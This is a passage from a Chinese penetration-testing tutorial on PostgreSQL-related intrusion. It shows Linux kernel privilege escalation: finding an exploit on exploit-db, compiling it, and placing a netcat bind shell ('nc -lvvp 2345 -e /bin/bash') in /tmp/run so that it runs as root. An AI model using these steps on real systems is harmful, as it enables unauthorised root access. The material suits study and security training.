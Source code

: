 

根据上述内核版本信息，我们可以在 exploitdb 中搜索对应版本是否存在本地漏洞利用代码，这也是目前最为简单的一种方法。



[![](/Users/seven/Desktop/pocs/database/postgresql/postgresql渗透技巧.assets/t01ccfa0a19e8c3b8cd.png)](https://p0.ssl.qhimg.com/t01ccfa0a19e8c3b8cd.png)



图 22. 搜索 Linux 内核漏洞利用代码



我们可以在本地或者远程系统中编译这段[利用代码](https://www.exploit-db.com/exploits/8572/)。



[![](/Users/seven/Desktop/pocs/database/postgresql/postgresql渗透技巧.assets/t0106b04e97f4935e3e.png)](https://p5.ssl.qhimg.com/t0106b04e97f4935e3e.png)



图 23. 编译漏洞利用程序并获取 netlink 的 PID 信息



这个漏洞利用程序需要在 / tmp 目录中创建一个 run 文件。当漏洞利用代码执行时就会运行这个文件，我们可以通过该文件监听某个端口。



```

#!/bin/bash

nc -lvvp 2345 -e /bin/bash



```



[![](/Users/seven/Desktop/pocs/database/postgresql/postgresql渗透技巧.assets/t01d1c1fec197564db1.png)](https://p3.ssl.qhimg.com/t01d1c1fec197564db1.png)



图 24. 在 tmp 目录中创建 run 文件



需要赋予该文件可执行权限。



```

chmod +x /tmp/run



```



我们可以通过如下命令，建立与该端口的连接，然后获得 root 权限下的 python shell 接口。
